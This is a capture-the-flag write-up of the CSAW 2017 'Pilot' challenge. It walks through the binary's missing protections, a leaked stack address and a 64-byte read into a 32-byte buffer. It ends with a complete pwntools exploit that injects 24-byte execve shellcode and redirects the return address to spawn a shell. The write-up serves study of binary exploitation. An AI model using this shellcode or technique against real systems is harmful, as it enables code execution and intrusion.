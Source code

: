 # Pilot

Full disclosure, a teammate of mine solved this challenge while I was working on SVC, so I solved this after the competition. In addition to that, the shellcode I used is from this other writeup  of the this challenge:

https://teamrocketist.github.io/2017/09/18/Pwn-CSAW-Pilot/

Let's take a look at the challenge:
```
$	file pilot 
pilot: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6ed26a43b94fd3ff1dd15964e4106df72c01dc6c, stripped
$	pwn checksec pilot 
[*] '/Hackery/csaw17/pilot-pwn-75/pilot'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
So we can see that it is a 64 bit elf, without NX, a Stack Canary, or PIE. Let's run it:

```
$	./pilot 
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7ffe1b239cb0
[*]Command:gimme that flag
```

So it starts off by printing out a bunch of text, then gives us what appears to be a stack address, then prompts us for input. Let's try to break it:

```
$	python -c 'print "0"*1000' | ./pilot 
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7fff8f8a6770
[*]Command:Segmentation fault (core dumped)
```

So by throwing 1000 bytes worth of `'0'`, we managed to break it. It is probably a buffer overflow vulnerabillity. Looking at the code in IDA, the following bit of code sticks out:

```
  if ( read(0, &buf, 0x40uLL) <= 4 )
  {
    LODWORD(v11) = std::operator<<<std::char_traits<char>>(&std::cout, "[*]There are no commands....");
    std::ostream::operator<<(v11, &std::endl<char,std::char_traits<char>>);
    LODWORD(v12) = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Mission Failed....");
    std::ostream::operator<<(v12, &std::endl<char,std::char_traits<char>>);
    result = 0xFFFFFFFFLL;
  }
```

That call to read is where our input is scanned into memory. We can see that if it scans in less than 4 bytes into memory, it will print out a `Mission Failed` statement. SO we can see that it is scanning in `0x40` bytes into memory into `buf`. 

```
-0000000000000020 buf             db 32 dup(?)
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
```

Here we can that our input is being scanned into `rbp-0x20`. We can see that the return address is stored at `rbp+0x8`. With the `0x40` bytes of data we get to write with the read call, we can overwrite the return address. Now about that infoleak:

```
  std::ostream::operator<<(v8, &std::endl<char,std::char_traits<char>>);
  LODWORD(v9) = std::operator<<<std::char_traits<char>>(&std::cout, "[*]Location:");
  LODWORD(v10) = std::ostream::operator<<(v9, &buf);
```

Here we can see the infoleak being printed. We can also see that the address being printed is that of `buf`, which is where our input is stored. So we have the address for the start of our input.

With these two things, we should be able to simply push shellcode onto the stack, then overwrite the return address to point to the start of our shellcode. That way when the function returns, it will execute our shellcode.

Now one thing to note, our shellcode has to be under 32 bytes. The reason for this being is that `buf` is only 32 bytes, and then there is `rbp` which takes up the 8 bytes between `buf` and the return address. When the code calls the leave instruction before it returns, it pops a value into the `rbp` register and will overwrite anything that is in it. So we have to if our shellcode into 32 bytes.

 Now our exploit will look like this:
 
 ```
 8 NOP instructions
 shellcode (24 bytes)
 8 NOP instruction (really doesn't matter what this us)
infoleak address (start of our input)
 ```
 
 We will throw 8 NOP instructions (NOP just runs the next instruction) in the beginning, just to give us a little room for error (we shouldn't need it). Then our shellcode will fill up the rest of the 32 bytes. Here is the exploit:
 
```
#Import pwntools
from pwn import *

#Establish the target
target = process('./pilot')
context.binary = ELF('pilot')
#target = remote("pwn.chal.csaw.io", 8464)

#Attach gdb
#gdb.attach(target)

#Print out the initial text
print target.recvuntil("[*]Good Luck Pilot!....")

#Scan in and filter out the infoleak
target.recvline()
leak = target.recvline()
print leak
leak = leak.replace("[*]Location:", "")
leak = int(leak, 16)

#Print out the infoleak, then prompt for input as a break
log.info("The leak is: " + hex(leak))
print target.recvuntil("[*]Command:", "")
raw_input()

#Establish the shellcode, the offsets, and the payload
shellcode = "\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"
offset = "\x90"*(32 - len(shellcode)/2)
payload = offset + shellcode + offset + p64(leak)

#Send the payload
target.send(payload)

#Drop to an interactive shell
target.interactive()
```
